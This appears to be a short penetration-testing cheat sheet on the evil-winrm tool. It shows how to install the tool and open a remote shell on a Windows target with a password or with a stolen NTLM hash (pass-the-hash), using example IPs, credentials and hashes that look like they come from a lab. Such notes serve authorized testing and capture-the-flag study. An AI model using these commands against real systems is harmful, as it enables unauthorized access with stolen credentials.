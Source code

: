 # Evil-winrm

[Repo](https://github.com/Hackplayers/evil-winrm)

## Install evil-winrm:

sudo gem install evil-winrm

## Get shell after successful enumeration

### Using a password  

-  `evil-winrm -i <target-ip> -u <username> -p <password-with-quotes>`
- Example `evil-winrm -i 10.10.10.172 -u mhope -p '4n0therD4y@n0th3r$'`

### Using an hash

- `evil-winrm -i <target-ip> -u <username> -H HASH`
- Example `evil-winrm -i 10.0.0.20 -u user -H BD1C6503987F8FF006296118F359FA79`

> Note with an hash like this `aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e` we use the second part to be able to connect so this `823452073d75b9d1cf70ebdf86c7f98e`  
> It should work both with and without quotes

## Resources

{% embed url="https://www.n00py.io/2020/12/alternative-ways-to-pass-the-hash-pth/" %} Alternative ways to Pass the Hash (PtH) - Noopy Blog {% endembed %}  
